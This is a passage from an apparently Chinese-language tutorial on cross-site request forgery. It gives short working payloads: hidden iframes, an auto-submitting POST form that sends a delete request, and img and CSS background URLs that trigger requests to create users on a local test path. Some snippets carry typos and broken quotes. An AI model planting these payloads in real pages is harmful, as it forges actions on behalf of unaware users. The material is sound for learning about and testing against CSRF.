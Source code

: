 ```html
<iframe
    src="http://127.0.0.1/csri_test/get_csrf/new_user.php？username=liuxiaoyang&password=123456"
    style="display:none"
/>
```

## 隐藏的 iframe

常用会返回信息的 POST 型 CSRF，使用隐藏的 iframe 进行攻击，就不会让受害者发现。

```html
<iframe style="display:none" name="csrf-frame"> </iframe>
<form
    method="POST"
    action="https://xxx.com/delete"
    target="csrf- frame"
    id="csrf-form"
>
    <input type="hidden" name="id" value="3" />
    <input type="submit" value="submit" />
</form>
<script>
    document.getElementById("csrf-form").submit();
</script>
```

开一个看不见的 iframe，让 form submit 之后的结果出现在 iframe 里面，而且这个 form 还可以自动 submit。

## img 标签的 src

img 标签利用
img 标签的内容会随着页面加载而被请求，以此 src 指向的位置会在页面加载过程中进行请求。

```html
<img
    src="http://127.0.0.1/csrf test/get_csrf/new_user.php？username=liuxiaoyang&password=123456"
/>
```

## CSS-backgroud 利用

可以利用 CSS 中 background 样式中的 url 来加载远程机器上的内容，从而对 url 中的内容发送 HTTP 请求
例如：

```
body{
background:#00FF00 url（''）no-repeat fixed top；
}

<h1 style="background:url("http://127.0.0.1/csrf_test/get_csrf/new_user.php?username=123123& password=123456');"">CSRF
POC</h1>

```
